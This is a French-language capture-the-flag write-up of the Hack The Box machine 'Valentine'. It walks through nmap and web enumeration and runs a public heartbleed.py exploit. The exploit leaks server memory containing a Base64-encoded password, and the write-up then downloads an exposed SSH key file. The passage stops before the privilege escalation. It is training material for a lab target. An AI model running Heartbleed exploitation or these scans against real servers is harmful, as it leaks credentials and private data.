

<!-- ====================================================================
Tableau d'infos (modèle) — Remplacer les valeurs entre <...> après création.
Aucun templating Hugo dans le corps, pour éviter les erreurs d'archetype.
====================================================================
| Champ          | Valeur |
|----------------|--------|
| **Plateforme** | <Hack The Box> |
| **Machine**    | <Valentine> |
| **Difficulté** | <Easy / Medium / Hard> |
| **Cible**      | <10.129.x.x> |
| **Durée**      | <2h> |
| **Compétences**| <Enumeration, Web, Privilege Escalation> |

---
-->
## Introduction

Cette machine propose une progression simple mais instructive, centrée sur l’exploitation de la fameuse vulnérabilité **[Heartbleed (CVE-2014-0160)](https://fr.wikipedia.org/wiki/Heartbleed)**, découverte un jour de Saint-Valentin et mise en avant dès la phase d’énumération.

**Classée Easy, elle est idéale pour débuter sur Hack The Box et consolider les fondamentaux** : reconnaissance, exploitation, analyse de contenu et élévation de privilèges, avec une chaîne d’attaque courte et logique.

L’objectif est d’extraire des informations sensibles à partir d’un service TLS vulnérable, puis de convertir ces données en un accès utilisateur fonctionnel. La seconde partie s’oriente vers l’escalade de privilèges, où tu découvres une configuration **tmux** mal sécurisée permettant d’obtenir un shell root de manière directe et efficace.

Concrètement, tu vas exploiter un service TLS vulnérable (OpenSSL/Heartbleed) pour récupérer un secret, l’utiliser pour déverrouiller une clé SSH, puis terminer avec une escalade via un socket tmux exposé.

---

## Énumérations

Dans un challenge **CTF Hack The Box**, tu commences **toujours** par une phase d’**énumération complète**.
C’est une étape incontournable : elle te permet d’identifier clairement ce que la machine expose avant toute tentative d’exploitation.

Concrètement, tu cherches à savoir quels **ports** sont ouverts, quels **services** sont accessibles, si une **application web** est présente, quels **répertoires** sont exposés et si des **sous-domaines ou vhosts** peuvent être exploités.

Pour réaliser cette énumération de manière structurée et reproductible, tu peux t’appuyer sur trois scripts :

- **** : identifie les ports ouverts et les services en écoute
- **** : énumère les répertoires et fichiers accessibles via le service web
- **** : détecte la présence éventuelle de sous-domaines et de vhosts

Tu retrouves ces outils dans la section **[Outils / Mes scripts](/mes-scripts/)**.
Pour garantir des résultats pertinents en contexte **CTF HTB**, tu utilises une **wordlist dédiée**, installée au préalable grâce au script ****.
Cette wordlist est conçue pour couvrir les technologies couramment rencontrées sur Hack The Box.

Avant de lancer les scans, vérifie que valentine.htb résout bien vers la cible. Sur HTB, ça passe généralement par une entrée dans /etc/hosts.

- Ajoute l’entrée `10.129.x.x valentine.htb` dans `/etc/hosts`.

```bash
sudo nano /etc/hosts
```

- Lance ensuite le script  pour obtenir une vue claire des ports et services exposés :


```bash
mon-nmap valentine.htb

# Résultats dans le répertoire scans_nmap/
#  - scans_nmap/full_tcp_scan.txt
#  - scans_nmap/aggressive_vuln_scan.txt
#  - scans_nmap/cms_vuln_scan.txt
#  - scans_nmap/udp_vuln_scan.txt
```

------

### Scan initial

Le scan initial TCP complet (`scans_nmap/full_tcp_scan.txt`) révèle les ports ouverts suivants :

> Note : les IP et timestamps peuvent varier selon les resets HTB ; l’important ici est la surface exposée (SSH + HTTP + HTTPS).

```bash
# Nmap 7.95 scan initiated Mon Nov 24 15:53:27 2025 as: /usr/lib/nmap/nmap --privileged -Pn -p- --min-rate 5000 -T4 -oN scans_nmap/full_tcp_scan.txt valentine.htb
Nmap scan report for valentine.htb (10.129.232.136)
Host is up (0.0082s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

# Nmap done at Mon Nov 24 15:53:37 2025 -- 1 IP address (1 host up) scanned in 10.03 seconds

```

### Scan agressif

Le script enchaîne ensuite automatiquement sur un scan agressif orienté vulnérabilités.

Voici le résultat (`scans_nmap/aggressive_vuln_scan.txt`) :

```bash
[+] Scan agressif orienté vulnérabilités (CTF-perfect LEGACY) pour valentine.htb
[+] Commande utilisée :
    nmap -Pn -A -sV -p"22,80,443" --script="http-vuln-*,http-shellshock,http-sql-injection,ssl-cert,ssl-heartbleed,sslv2,ssl-dh-params" --script-timeout=30s -T4 "valentine.htb"

# Nmap 7.95 scan initiated Mon Nov 24 15:53:37 2025 as: /usr/lib/nmap/nmap --privileged -Pn -A -sV -p22,80,443 --script=http-vuln-*,http-shellshock,http-sql-injection,ssl-cert,ssl-heartbleed,sslv2,ssl-dh-params --script-timeout=30s -T4 -oN scans_nmap/aggressive_vuln_scan.txt valentine.htb
Nmap scan report for valentine.htb (10.129.232.136)
Host is up (0.0092s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-server-header: Apache/2.2.22 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.2.22
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Issuer: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2018-02-06T00:45:25
| Not valid after:  2019-02-06T00:45:25
| MD5:   a413:c4f0:b145:2154:fb54:b2de:c7a9:809d
|_SHA-1: 2303:80da:60e7:bde7:2ba6:76dd:5214:3c3c:6f53:01b1
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       http://www.openssl.org/news/secadv_20140407.txt 
|       http://cvedetails.com/cve/2014-0160/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|_http-server-header: Apache/2.2.22 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.10, Linux 2.6.32 - 3.13
Network Distance: 2 hops
Service Info: Host: 10.10.10.136; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   10.95 ms 10.10.14.1
2   11.00 ms valentine.htb (10.129.232.136)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 24 15:53:53 2025 -- 1 IP address (1 host up) scanned in 16.19 seconds

```

### Scan ciblé CMS

Voici le scan ciblé CMS (`scans_nmap/cms_vuln_scan.txt`) .

```bash
# Nmap 7.95 scan initiated Mon Nov 24 15:53:53 2025 as: /usr/lib/nmap/nmap --privileged -Pn -sV -p22,80,443 --script=http-wordpress-enum,http-wordpress-brute,http-wordpress-users,http-drupal-enum,http-drupal-enum-users,http-joomla-brute,http-generator,http-robots.txt,http-title,http-headers,http-methods,http-enum,http-devframework,http-cakephp-version,http-php-version,http-config-backup,http-backup-finder,http-sitemap-generator --script-timeout=30s -T4 -oN scans_nmap/cms_vuln_scan.txt valentine.htb
Nmap scan report for valentine.htb (10.129.232.136)
Host is up (0.0087s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
| http-headers: 
|   Date: Mon, 24 Nov 2025 14:53:17 GMT
|   Server: Apache/2.2.22 (Ubuntu)
|   X-Powered-By: PHP/5.3.10-1ubuntu3.26
|   Vary: Accept-Encoding
|   Connection: close
|   Content-Type: text/html
|   
|_  (Request type: HEAD)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-php-version: Versions from logo query (less accurate): 5.3.0 - 5.3.29, 5.4.0 - 5.4.45
| Versions from credits query (more accurate): 5.3.9 - 5.3.29
|_Version from header x-powered-by: PHP/5.3.10-1ubuntu3.26
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 1; jpg: 1
|   Longest directory structure:
|     Depth: 0
|     Dir: /
|   Total files found (by extension):
|_    Other: 1; jpg: 1
| http-enum: 
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
|_  /index/: Potentially interesting folder
443/tcp open  ssl/http Apache httpd 2.2.22
|_http-server-header: Apache/2.2.22 (Ubuntu)
| http-php-version: Versions from logo query (less accurate): 5.3.0 - 5.3.29, 5.4.0 - 5.4.45
| Versions from credits query (more accurate): 5.3.9 - 5.3.29
|_Version from header x-powered-by: PHP/5.3.10-1ubuntu3.26
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
|_http-title: Site doesn't have a title (text/html).
| http-headers: 
|   Date: Mon, 24 Nov 2025 14:53:17 GMT
|   Server: Apache/2.2.22 (Ubuntu)
|   X-Powered-By: PHP/5.3.10-1ubuntu3.26
|   Vary: Accept-Encoding
|   Connection: close
|   Content-Type: text/html
|   
|_  (Request type: HEAD)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 1; jpg: 1
|   Longest directory structure:
|     Depth: 0
|     Dir: /
|   Total files found (by extension):
|_    Other: 1; jpg: 1
| http-enum: 
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.2.22 (ubuntu)'
|_  /index/: Potentially interesting folder
Service Info: Host: 10.10.10.136; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 24 15:54:21 2025 -- 1 IP address (1 host up) scanned in 28.05 seconds

```

### Scan UDP rapide

Voici le scan UDP rapide (`scans_nmap/udp_vuln_scan.txt`).

```bash
# Nmap 7.95 scan initiated Mon Nov 24 15:54:21 2025 as: /usr/lib/nmap/nmap --privileged -n -Pn -sU --top-ports 20 -T4 -oN scans_nmap/udp_vuln_scan.txt valentine.htb
Warning: 10.129.232.136 giving up on port because retransmission cap hit (6).
Nmap scan report for valentine.htb (10.129.232.136)
Host is up (0.010s latency).

PORT      STATE         SERVICE
53/udp    closed        domain
67/udp    closed        dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   closed        ntp
135/udp   closed        msrpc
137/udp   closed        netbios-ns
138/udp   closed        netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   closed        snmp
162/udp   closed        snmptrap
445/udp   closed        microsoft-ds
500/udp   closed        isakmp
514/udp   closed        syslog
520/udp   open|filtered route
631/udp   open|filtered ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  closed        nat-t-ike
49152/udp open|filtered unknown

# Nmap done at Mon Nov 24 15:54:34 2025 -- 1 IP address (1 host up) scanned in 13.25 seconds

```

### Énumération des chemins web avec `mon-recoweb`

Pour la partie découverte de chemins web, utilise le script dédié 

```bash
mon-recoweb valentine.htb

# Résultats dans le répertoire scans_recoweb/
#  - scans_recoweb/RESULTS_SUMMARY.txt     ← vue d’ensemble des découvertes
#  - scans_recoweb/dirb.log
#  - scans_recoweb/dirb_hits.txt
#  - scans_recoweb/ffuf_dirs.txt
#  - scans_recoweb/ffuf_dirs_hits.txt
#  - scans_recoweb/ffuf_files.txt
#  - scans_recoweb/ffuf_files_hits.txt
#  - scans_recoweb/ffuf_dirs.json
#  - scans_recoweb/ffuf_files.json

```

Le fichier **`RESULTS_SUMMARY.txt`** te permet d’identifier rapidement les chemins intéressants sans parcourir tous les logs.

Voici le résultat repris dans le fichier `scans_recoweb/RESULTS_SUMMARY.txt`

```bash
===== mon-recoweb — RÉSUMÉ DES RÉSULTATS =====
Commande principale : /home/kali/.local/bin/mes-scripts/mon-recoweb
Script              : mon-recoweb v2.1.0

Cible        : valentine.htb
Périmètre    : /
Date début   : 2026-01-10 16:44:33

Commandes exécutées (exactes) :

[dirb — découverte initiale]
dirb http://valentine.htb/ /usr/share/wordlists/dirb/common.txt -r | tee scans_recoweb/dirb.log

[ffuf — énumération des répertoires]
ffuf -u http://valentine.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/ffuf_dirs.json 2>&1 | tee scans_recoweb/ffuf_dirs.log

[ffuf — énumération des fichiers]
ffuf -u http://valentine.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/ffuf_files.json 2>&1 | tee scans_recoweb/ffuf_files.log

Processus de génération des résultats :
- Les sorties JSON produites par ffuf constituent la source de vérité.
- Les entrées pertinentes sont extraites via jq (URL, code HTTP, taille de réponse).
- Les réponses assimilables à des soft-404 sont filtrées par comparaison des tailles et des codes HTTP.
- Les URLs finales sont reconstruites à partir du périmètre scanné (racine du site ou sous-répertoire ciblé).
- Les résultats sont normalisés sous la forme :
    http://cible/chemin (CODE:xxx|SIZE:yyy)
- Les chemins sont ensuite classés par type :
    • répertoires (/chemin/)
    • fichiers (/chemin.ext)
- Le fichier RESULTS_SUMMARY.txt est généré par agrégation finale, sans retraitement manuel,
  garantissant la reproductibilité complète du scan.

----------------------------------------------------

=== Résultat global (agrégé) ===

http://valentine.htb/cgi-bin/ (CODE:403|SIZE:289)
http://valentine.htb/. (CODE:200|SIZE:38)
http://valentine.htb/decode (CODE:200|SIZE:552)
http://valentine.htb/dev/
http://valentine.htb/dev/ (CODE:301|SIZE:312)
http://valentine.htb/encode (CODE:200|SIZE:554)
http://valentine.htb/encode/ (CODE:200|SIZE:554)
http://valentine.htb/.htaccess.bak (CODE:403|SIZE:294)
http://valentine.htb/.htaccess (CODE:403|SIZE:290)
http://valentine.htb/.htc (CODE:403|SIZE:285)
http://valentine.htb/.ht (CODE:403|SIZE:284)
http://valentine.htb/.htgroup (CODE:403|SIZE:289)
http://valentine.htb/.htm (CODE:403|SIZE:285)
http://valentine.htb/.html (CODE:403|SIZE:286)
http://valentine.htb/.htpasswd (CODE:403|SIZE:290)
http://valentine.htb/.htpasswds (CODE:403|SIZE:291)
http://valentine.htb/.htuser (CODE:403|SIZE:288)
http://valentine.htb/index (CODE:200|SIZE:38)
http://valentine.htb/index/ (CODE:200|SIZE:38)
http://valentine.htb/index.php (CODE:200|SIZE:38)
http://valentine.htb/server-status (CODE:403|SIZE:294)
http://valentine.htb/server-status/ (CODE:403|SIZE:294)

=== Détails par outil ===

[DIRB]
http://valentine.htb/cgi-bin/ (CODE:403|SIZE:289)
http://valentine.htb/decode (CODE:200|SIZE:552)
http://valentine.htb/dev/
http://valentine.htb/encode (CODE:200|SIZE:554)
http://valentine.htb/index (CODE:200|SIZE:38)
http://valentine.htb/index.php (CODE:200|SIZE:38)
http://valentine.htb/server-status (CODE:403|SIZE:294)

[FFUF — DIRECTORIES]
http://valentine.htb/dev/ (CODE:301|SIZE:312)
http://valentine.htb/encode/ (CODE:200|SIZE:554)
http://valentine.htb/index/ (CODE:200|SIZE:38)
http://valentine.htb/server-status/ (CODE:403|SIZE:294)

[FFUF — FILES]
http://valentine.htb/. (CODE:200|SIZE:38)
http://valentine.htb/.htaccess.bak (CODE:403|SIZE:294)
http://valentine.htb/.htaccess (CODE:403|SIZE:290)
http://valentine.htb/.htc (CODE:403|SIZE:285)
http://valentine.htb/.ht (CODE:403|SIZE:284)
http://valentine.htb/.htgroup (CODE:403|SIZE:289)
http://valentine.htb/.htm (CODE:403|SIZE:285)
http://valentine.htb/.html (CODE:403|SIZE:286)
http://valentine.htb/.htpasswd (CODE:403|SIZE:290)
http://valentine.htb/.htpasswds (CODE:403|SIZE:291)
http://valentine.htb/.htuser (CODE:403|SIZE:288)
http://valentine.htb/index.php (CODE:200|SIZE:38)

```

### Recherche de vhosts avec `mon-subdomains`

Enfin, teste rapidement la présence de vhosts  avec  le script 

```bash
mon-subdomains valentine.htb

# Résultats dans le répertoire scans_subdomains/
#  - scans_subdomains/scan_vhosts.txt
```

Si aucun vhost distinct n’est détecté, ce fichier te permet malgré tout de confirmer que le fuzzing n’a rien révélé d’exploitable.

```bash
=== mon-subdomains valentine.htb START ===
Script       : mon-subdomains
Version      : mon-subdomains 2.0.0
Date         : 2026-01-08 16:59:30
Domaine      : valentine.htb
IP           : 10.129.232.136
Mode         : large
Master       : /usr/share/wordlists/htb-dns-vh-5000.txt
Codes        : 200,301,302,401,403  (strict=1)

VHOST totaux : 0
  - (aucun)

--- Détails par port ---
Port 80 (http)
  Baseline#1: code=200 size=38 words=2 (Host=roz5cppay9.valentine.htb)
  Baseline#2: code=200 size=38 words=2 (Host=ayhkark7gp.valentine.htb)
  Baseline#3: code=200 size=38 words=2 (Host=6r2lqcda9u.valentine.htb)
  VHOST (0)
    - (fuzzing sauté : wildcard probable)
    - (explication : réponse identique quel que soit Host → vhost-fuzzing non discriminant)

Port 443 (https)
  Baseline#1: code=200 size=38 words=2 (Host=4nnwzooemd.valentine.htb)
  Baseline#2: code=200 size=38 words=2 (Host=toeoxtti22.valentine.htb)
  Baseline#3: code=200 size=38 words=2 (Host=42bn9g7snc.valentine.htb)
  VHOST (0)
    - (fuzzing sauté : wildcard probable)
    - (explication : réponse identique quel que soit Host → vhost-fuzzing non discriminant)


=== mon-subdomains valentine.htb END ===


```


---

## Exploitation – Prise pied (Foothold)

### Analyse de l'image

Le site web exposé par la machine est extrêmement minimaliste : il ne présente qu'une unique page contenant simplement une image, *omg.jpg*, sans aucun lien ni fonctionnalité apparente. Face à une surface d'attaque aussi restreinte, il est logique d'envisager que cette image puisse dissimuler une information utile à la progression. 

Commence par la télécharger et l'analyser à l'aide des outils et méthodes décrits dans la recette ****, afin de vérifier si elle ne renferme pas un fichier embarqué, des métadonnées révélatrices ou un indice spécifique.

Après une vérification rapide (dont `stegseek`), rien de concluant : tu notes que l’image est un leurre / décor, puis tu reviens au signal fort de l’énumération : Heartbleed sur 443.


------

### Heartbleed

Lors du **scan agressif**, Nmap met en évidence la présence d'une vulnérabilité critique : **[Heartbleed](https://fr.wikipedia.org/wiki/Heartbleed) (littéralement “cœur qui saigne”) – CVE-2014-0160** sur le service TLS. Le nom de la machine — *Valentine* — et l'image d'un **cœur brisé** affichée sur la page web orientent immédiatement vers cette faille célèbre, **découverte le jour de la Saint-Valentin**. Heartbleed touche l'extension TLS Heartbeat et permet à un attaquant de lire arbitrairement des fragments de mémoire du serveur. Tous ces indices convergent et indiquent clairement que l'exploitation de **Heartbleed** constitue le point d'entrée logique pour obtenir le foothold.

#### heartbleed.py

Tu peux télécharger **[heartbleed.py](https://github.com/injcristianrojas/heartbleed-example/blob/master/heartbleed.py)** depuis le dépôt GitHub de [injcristianrojas](https://github.com/injcristianrojas/heartbleed-example) et suivre ses instructions.

Le script est ancien et a été écrit pour **Python 2**. Il est donc préférable de l’exécuter avec `python2` afin d’éviter tout problème de compatibilité ou d’erreurs de syntaxe.

Commande de lancement et affichage de l’aide :

```bash
python2 heartbleed.py

defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)
Usage: heartbleed.py server [options]

Test and exploit TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

Options:
  -h, --help            show this help message and exit
  -p PORT, --port=PORT  TCP port to test (default: 443)
  -n NUM, --num=NUM     Number of times to connect/loop (default: 1)
  -s, --starttls        Issue STARTTLS command for SMTP/POP/IMAP/FTP/etc...
  -f FILEIN, --filein=FILEIN
                        Specify input file, line delimited, IPs or hostnames
                        or IP:port or hostname:port
  -v, --verbose         Enable verbose output
  -x, --hexdump         Enable hex output
  -r RAWOUTFILE, --rawoutfile=RAWOUTFILE
                        Dump the raw memory contents to a file
  -a ASCIIOUTFILE, --asciioutfile=ASCIIOUTFILE
                        Dump the ascii contents to a file
  -d, --donotdisplay    Do not display returned data on screen
  -e, --extractkey      Attempt to extract RSA Private Key, will exit when
                        found. Choosing this enables -d, do not display
                        returned data on screen.

```

Tu lances ensuite l’exploit contre la cible **valentine.htb**, en effectuant plusieurs itérations afin d’augmenter les chances de fuite mémoire :

```bash
python2 heartbleed.py valentine.htb -n 5
```

```bash
defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

##################################################################
Connecting to: valentine.htb:443, 5 times
Sending Client Hello for TLSv1.0
Received Server Hello for TLSv1.0

WARNING: valentine.htb:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 5 of 5
##################################################################

.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==....m...E..u}..a}o.K....................-.....3...........B...5D.y,+..Y...d:..k.TlWH.F......+rt.....["k....!.>..N.y..$..hPv~b.....b.'+,M.e .d.. ]}....(... *...3..aF......:DM.h..<..n..N..CM.P=..?.I.$nB...,;b.L....$...?.K/c....3w{.A.\.q;...Jw...,..C.."[|^....l\m..Q..Q....+..I...(.J.....g)...."......?).%.....k.[............nt"_$5M&...RS.Q\..ENK...1.Uc..4$w......|`...4..pI........:..\.....M....$?........%$.......I."n.R..f.......... V....Bj...Z..J....y&.1..~Q..............H....9[...s.[....x{y...[A..*.N.r:.lRL....l..L.4fK....{]!....I......8..xV..S[)..S3D.j5..wH..XD...d.L...I...e...\...J.z........D.4..9.2w..<0~.^..............L.).7....B....U....Y+7{I>'..9h..D1.....O....5(..G..T}.M[.9.;....75...a.........F.k.w&....I{.........3!.eb..:..D.[9.L...y#..D!......S6.E.^.&...f.\.@.O.&..cl....=P...vy.,[d....b........20.....J$......./....w2R.V.m[.@.zA..%*.j.lD}....|wQ/.$.y._)b7..._._.9....oEn..}%.b.q.h@..L...W.S.v.H..p...cjR.LHx.
.H......nuQ]NX....`8......C..s..;..ORt2....W:.....i.Wc..J;....!........E}...qP..;[g...Me.....:6....A.T..M...U.V.:7.i....4E..Yg....v4 .c.....`.5y......./,... ........r9.X.A..[.$x<..........Oq.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==Q!.w..-..yX.....p................+............-.....3........_...1..!..ir..AcXRvxe.E".&gRRT.R....t.~Br9....buY.uzQS.*...UjP+.C..c...Q7.Q.d....ghL.U}]e|..k.Y./.v..E..I....0.Btj..x../...:...S....^iyf./9R...V.......JH+3?aR....8..R#J,.6.T.n.B\..,..-I...P...SH 3.oE`j.&BI..o.E..G.Z.|GX..Y..).D.....1.....1..0.P..\.MX6.3a.d......;...(c._.f.j.u.L..k<.HA..........*{.a%N.dwC..H7...-|9...Hf.KL.J.!9(....4X.."..#..h....+..d.o.h.....`.E.*%.>.!.6.t0c.t.c...a.DT......m.f.!L..p..H...$..l.0.....9.Rj.N...A.^..$..7.Zz_1..g.....;s.;y95...Sd..ft..*...
..5......B..P.
iB.$...8.....".!Ru.7JO.<....h.32:....)....v{....0..3.F9.....i.
r..d.$...)...9.p.i..Vi.....XB^.7..v........:1P. V.f.z"..V$.?.)..34fz=.Z......6..UoBa......].mJ.n$....N
.E...oe.....Q;.#...["....:Nc....-...;.....a.?5..wr....I...?3..A....
"....T."J....1..kN....."F.J..CC|..P{U....\..A..o....W=~.P.F.......D...b.Z..'v.J...4.nA.``ul...Q...Vc.M...mv...G..".3....r..`OG.@....G...,.G`..{...A.O.=..Y.tWHR.],.9'.4.}.....h.*..dO,...2v......j...ly.GY.8...").....[Y.~..<K."kp..V!\....m.....? 
....iN,E~.>^...4.u9.,<m...'..t.65.N^z...=.5.<=... ..<..|.....p.yM 6r.....tD.....O_q.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

q.@....SC[...r....+..H...9...0aGVoeXBlCg==..S.w...7.....?v
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==......7..U.T.%.`t.L.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==..y.....*....!.!.I.#.............+............-.....3........=..5@t.:.........a...`e@v.!..n....r....te.-1.S\.8.>si/2..tXKo..\...2 .x"...k..Y...'7...&...c......(.s.p......0YV`IM...wjZ....ukJp((W@.*|F[9pKF...;.e[<VQ...|...CV*..e..?)..Xu..Q/;....&......1Xn....../.\u.X.;\..b.&5"4...f=....EU....#f.....8......c...?.z]..R..CC.'u.|...bi...
......%Oz.mXw.k.D.....c..)H.4.U.....b.U...q[81WD!M.{..E..s...=d...4,..mOA..f...S.bA....z...l..OMyo..D..8...{4.:.B.(.....;.x.....M..$G0..M.....OM.K.8#.....XJ.........k%..BY...03=......cm..c..`+..5.}Y.F...GWS.ji...$\)o.>.'...~.S^..+...].....)......9.P........d.{..>.&1..3G...a....An'..@Z+O.Q."0..J.P....=.r...0cV..+.$..V...sH.[.`t.:|Nz(.6...y.I.55IZt..ZL..IS..f."...Mt..`.{... ...N..u.t:....).........KA..p.n.p*.f..h..c4....'Y
}..aj... ...,.**...c0f..*....t.G.......8LJ.Pe...............m.DMJ.....Y..z.F...h.....7..!....r..\...;k.3n....e
.AR..!.....T=x.|P.$".^w..J(.
6.Q]../.u.(7.....F.P.R.,.M.J...m. ..N.)/J..m.SSp8S.5...t.....$.+].v..!.8>.t...._Iuq.Zf..ebd?Y..r.....k.E....$.W.1.buJ..y..Ej.........V%..
...>..yP...z5...N..0w.......x ....{....a....;...{[....[a...Q.g..>Zie........
]+...9..j &.{.|q/.<


```

#### Exploitation

La sortie te confirme clairement que le serveur est vulnérable à **Heartbleed (CVE-2014-0160)** :

```bash
WARNING: valentine.htb:443 returned more data than it should - server is vulnerable!
```

Au milieu des données mémoire retournées, tu retrouves à plusieurs reprises le même fragment HTTP contenant une variable intéressante :

```bash
$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
```

Cette valeur tu la vois apparître de façon récurrente dans les fuites mémoire, ce qui attire l’attention.
Ça ressemble clairement à une chaîne encodée en **Base64**.

Décodage de la valeur :

```bash
echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 --decode | tr -d '\n'
```

Résultat :

```
heartbleedbelievethehype
```

La chaîne décodée **heartbleedbelievethehype** ressemble fortement à un **mot de passe**, ce qui en fait un excellent candidat à tester lors des étapes suivantes de l’exploitation.

### Exploration des répertoires exposés

Lors de la phase d’énumération, le scan des répertoires web a permis d’identifier plusieurs chemins accessibles sur le serveur. Même lorsque cette étape semble peu prometteuse, il est important de les examiner manuellement : des fichiers sensibles sont parfois laissés accessibles par négligence.

Parmi les répertoires mis en évidence, **/dev** retient rapidement ton attention. Il ne s’agit pas ici du répertoire système Linux classique, mais bien d’un dossier exposé via le serveur web.

L’index de ce répertoire révèle alors la présence de deux fichiers intéressants :

- **hype_key**
- **notes.txt**

Ces fichiers constituent des pistes évidentes pour la suite de l’exploitation et méritent d’être analysés plus en détail.


#### Récupération et analyse des fichiers du répertoire /dev

Tu commences par récupérer localement les deux fichiers exposés dans le répertoire **/dev** à l’aide de `curl`.

Téléchargement de **notes.txt** :

```bash
curl -o notes.txt http://valentine.htb/dev/notes.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   227  100   227    0     0  10972      0 --:--:-- --:--:-- --:--:-- 10809
```

Téléchargement de **hype_key** :

```bash
curl -o hype_key http://valentine.htb/dev/hype_key
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  5383  100  5383    0     0   275k      0 --:--:-- --:--:-- --:--:--  276k
```

#### Analyse de notes.txt

Le fichier **notes.txt** contient uniquement une liste de tâches internes :

```texte
To do:

1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.
```

Aucun élément directement exploitable n’apparaît ici.
